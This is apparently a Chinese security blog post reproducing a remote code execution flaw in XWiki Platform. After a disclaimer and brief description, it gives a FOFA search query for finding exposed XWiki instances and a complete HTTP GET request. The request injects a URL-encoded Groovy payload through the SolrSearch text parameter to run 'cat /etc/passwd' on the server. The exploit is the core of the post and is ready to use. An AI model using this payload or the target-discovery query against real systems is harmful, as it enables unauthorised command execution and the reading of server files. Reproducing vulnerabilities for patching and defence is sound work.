 #  漏洞复现 || XWiki Platform系统远程代码执行   
韩文庚  我爱林   2025-05-08 10:18  
  
## 免责声明  
  
**我爱林攻防研究院的技术文章仅供参考，****任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得利用网络从事危害国家安全、荣誉和利益****，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**  
## 漏洞描述  
  
       XWiki Platform是XWiki开源的一套用于创建Web协作应用程序的Wiki平台。XWiki Platform存在安全漏洞，该漏洞源于对用户输入数据的未充分过滤，攻击者可利用Solr查询参数注入恶意代码，通过服务端模板引擎（如Velocity或Groovy）触发命令执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JibM0LyR9LlMiaMnvLHe1ptRYQ2yQp4icxKPOLhpqZHLEA4htbNWyQllkwSoqmUlo8P4J8qgRdXDmpicptUkA500Sg/640?wx_fmt=png&from=appmsg "")  
## 资产确定  
```
fofa： body="data-xwiki-reference"
```  
## 漏洞复现  
  
1.利用如下PO  
C读取passwd  
```
GET /bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d%20 HTTP/1.1
Host: {{hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JibM0LyR9LlMiaMnvLHe1ptRYQ2yQp4icxKIO9UAZh3oDV5w3rpdTwsRWKRDYQeTe7KlccHbZB7Fw3y7ydnhqhQ9Q/640?wx_fmt=png&from=appmsg "")  
  
如有侵权，请联系删除  
  
感谢您抽出  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
.  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
.  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
来阅读本文  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
**点它，分享点赞在看都在这里**  
  

